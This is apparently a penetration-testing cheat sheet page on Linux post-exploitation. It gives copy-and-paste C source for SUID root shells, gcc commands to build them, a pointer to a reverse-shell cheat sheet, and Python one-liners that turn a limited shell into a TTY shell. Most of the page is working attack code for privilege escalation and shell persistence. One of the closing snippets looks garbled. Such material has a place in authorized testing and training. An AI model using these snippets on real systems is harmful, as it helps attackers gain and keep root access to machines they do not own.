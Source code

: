 Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.

below are some quick copy and pate examples for various shells:

### SUID C Shell for /bin/bash   

{% highlight c %}
int main(void){
       setresuid(0, 0, 0);
       system("/bin/bash");
}       
{% endhighlight %}

### SUID C Shell for /bin/sh

{% highlight c %}
int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}       
{% endhighlight %}


### Building the SUID Shell binary

{% highlight bash %}
gcc -o suid suid.c  
{% endhighlight %}

For 32 bit:

{% highlight bash %}
gcc -m32 -o suid suid.c  
{% endhighlight %}

## Reverse Shells

See [Reverse Shell Cheat Sheet](/blog/reverse-shell-cheat-sheet/) for a list of useful Reverse Shells.

## TTY Shells

Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like <code>su</code> from reverse shells.

### Python TTY Shell Trick  

{% highlight python %}
python -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}

{% highlight bash %}
echo os.system('/bin/bash')
{% endhighlight %}
